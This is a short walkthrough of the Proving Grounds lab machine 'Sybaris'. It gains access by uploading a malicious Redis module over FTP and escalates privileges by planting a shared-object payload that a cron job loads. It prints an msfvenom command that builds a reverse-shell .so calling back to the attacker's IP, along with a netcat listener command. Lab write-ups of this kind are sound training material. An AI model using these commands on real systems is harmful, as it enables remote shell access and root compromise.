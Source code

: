 
# 🧪 Sybaris Walkthrough (Proving Grounds)

## 📌 Summary
Initial access through Redis and FTP, followed by privilege escalation via cron job abuse and shared object injection.

---

## 🚪 Initial Foothold: Redis + FTP

- **Redis Enumeration**
  - Reference: [Redis Pentesting - HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html)
  - GitHub: [RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

- **Exploitation Steps**
  1. Gain access to Redis and FTP.
  2. Upload `module.so` via FTP.
  3. Use this walkthrough for reference:
     [Initial foothold](https://medium.com/@vivek-kumar/offensive-security-proving-grounds-walk-through-sybaris-491b23545014)
  4. Used a bash reverse shell to port `6379`.

---

## ⚙️ Privilege Escalation (PE)

- **Cron Job Abuse**
  - Reference: [PE Walkthrough](https://medium.com/@SxEl/proving-grounds-sybaris-walkhtrough-ec32f39b9bcc)

- **Steps**
  1. Create `.so` payload:
     ```bash
     msfvenom -p linux/x64/shell_reverse_tcp LHOST=YOUR-IP LPORT=6379 -f elf-so -o utils.so
     ```

  2. Upload `utils.so` to:
     ```
     /usr/local/lib/dev/utils.so
     ```

  3. This path is required by `/usr/bin/log-sweeper`.

  4. Open a netcat listener:
     ```bash
     nc -nlvp 6379
     ```

  5. Trigger the cron job by waiting or executing the binary.

---

## 🧠 Notes
- Target OS: Linux
- Exploited service: Redis (TCP 6379)
- Shell type: Bash reverse shell

